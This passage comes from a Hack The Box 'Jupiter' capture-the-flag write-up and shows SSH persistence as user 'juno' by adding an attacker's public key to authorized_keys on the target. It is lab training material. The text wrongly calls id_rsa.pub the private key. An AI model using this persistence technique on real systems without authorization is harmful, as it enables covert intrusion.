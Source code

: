 
### **<strong><font color="DarkKhaki">SSH Access (Persistence)</font></strong>**

To gain a stable persistent access on the target machine as `juno`, we can generate locally an SSH key pair (`id_rsa` and `id_rsa.pub`), and then add the private key (*The content of `id_rsa.pub`*) into the `/home/juno/.ssh/authorized_keys` file:

**1-** Generate SSH keys on the attacking machine: <br/>
```bash
$ ssh-keygen
```

**2-** Copy the content of `id_rsa.pub`: <br/>
```bash
$ cat id_rsa.pub | xclip -selection clipboard
```

**3-** Go back to the target machine and paste the copied public key into `/home/juno/.ssh/authorized_keys` file: <br/>
```bash
juno@jupiter:~$ echo '<paste-here>' >> /home/juno/.ssh/authorized_keys
```

**4-** On the attacking machine, run the command below to establish an SSH connection using private key: <br/>
```bash
$ ssh -i id_rsa juno@jupiter.htb
Enter passphrase for key 'id_rsa': <Enter the passphrase you set in ssh-keygen, here>
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-18 21_08_24-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>SSH Access as 'juno'</i></center>
<br/>
